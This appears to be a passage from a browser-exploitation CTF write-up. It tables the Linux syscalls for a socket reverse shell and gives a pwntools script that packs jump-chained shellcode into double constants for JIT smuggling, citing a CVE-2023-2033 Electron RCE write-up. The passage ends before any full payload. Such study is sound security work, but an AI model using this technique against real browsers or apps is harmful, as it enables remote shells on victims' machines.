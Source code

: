 #### syscalls need to perform

- We can get rce using only execve syscall using [this procedure](https://www.turb0.one/pages/Weaponizing_Chrome_CVE-2023-2033_for_RCE_in_Electron:_Some_Assembly_Required.html)
- But here I'm crafting the standard socket reverse shell

| syscalls | syscall_no | rdi                  | rsi                     | rdx                     | r10 |
| -------- | ---------- | -------------------- | ----------------------- | ----------------------- | --- |
| socket   | 0x29       | domain               | type                    | protocol                | -   |
| connect  | 0x2a       | sockfd               | struct sockaddr *       | socklen_t addrlen       | -   |
| dup2     | 0x21       | oldfd                | newfd                   | -                       | -   |
| execve   | 0x3b       | const char *filename | const char *const *argv | const char *const *envp | -   |


- The above things are the required things that we need to get a rev shell using socket connection, also we need to perform a comparison and jmp when doing `dup2` syscall (will explain that while doing)
- Now for crafting our jump shellcode there are already few browser CTF writeups python script, let's use one of them now
- I'm using the python script from [this blog](https://www.turb0.one/pages/Weaponizing_Chrome_CVE-2023-2033_for_RCE_in_Electron:_Some_Assembly_Required.html)
- Let's try to write [this shellcode](https://shell-storm.org/shellcode/files/shellcode-857.html) using the above python script

```python
from pwn import *


context(arch='amd64')
jmp = b'\xeb\x0c'

global current_byte
current_byte = 0x90
global read_bytes
read_bytes = 0
def junk_byte():
    global current_byte
    global read_bytes
    current_byte = (current_byte + read_bytes + 0x17) & 0xFF
    read_bytes += 1
    return current_byte.to_bytes(1,byteorder="big")
global made
made = 0

def make_double(code):
    assert len(code) <= 6
    global made
    tojmp = 0xc
    # tojmp = 0x12
    if made > 14:
        tojmp += 3
    jmp = b'\xeb'
    tojmp += 6-len(code)
    made = made+1
    jmp += tojmp.to_bytes(1, byteorder='big')
    print("0x"+hex(u64((code+jmp).ljust(8, junk_byte())))[2:].rjust(16,'0').upper()+"n,")
```
